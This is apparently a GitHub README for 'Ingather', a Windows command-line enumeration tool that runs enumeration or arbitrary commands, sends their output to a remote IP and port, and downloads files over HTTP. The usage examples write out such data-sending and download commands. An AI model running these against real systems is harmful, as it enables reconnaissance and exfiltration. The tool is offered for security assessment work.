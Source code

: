 # Ingather

Windows vulnerability command line enumeration tool.  Written in Free Pascal/Lazarus: http://www.lazarus-ide.org/index.php?page=downloads.

```
Usage: Ingather.exe -i 1.1.1.1 -p 4444 -o output.txt
       Ingather.exe -d http://www.abcded.com/abc.txt -s c:\temp\abc.text
       Ingather.exe -c "ipconfig /all" -i 1.1.1.1 -p 4444

Download file over HTTP:
       -d, --download    : download file
       -s, --save        : location to save downloaded file to
       -z,               : use the Windows HTTP download function
                           otherwise use custom HTTP download function
Run options:
       -c, --command     : run command and send output across network
       -e, --enum        : run all builtin enumerations
Output options:
       -i, --ip          : destination IP address
       -p, --port        : destination port
       -o, --out         : write enumeration command outputs to file
NOTE: If output to file or network is specified,
      screen output will be suppressed.
Info:
       -h, --help        : print this help message
       -l, --list        : print enumeration commands use by Ingather
```

Reduce Lazarus EXE file size: http://lazplanet.blogspot.com/2013/03/how-to-reduce-exe-file-size-of-your.html

Synapse Lazarus TCP package:  http://www.ararat.cz/synapse/doku.php/download; Install: http://wiki.freepascal.org/Synapse#Installation
- Download Synapse and extract it to the `\lazarus\components\` directory.

DISCLAIMER:
This program is for educational use and/or vulnerability enumeration by cyber security professionals only.  All responsability and negative consequences for its use falls entirely on the one executing it.
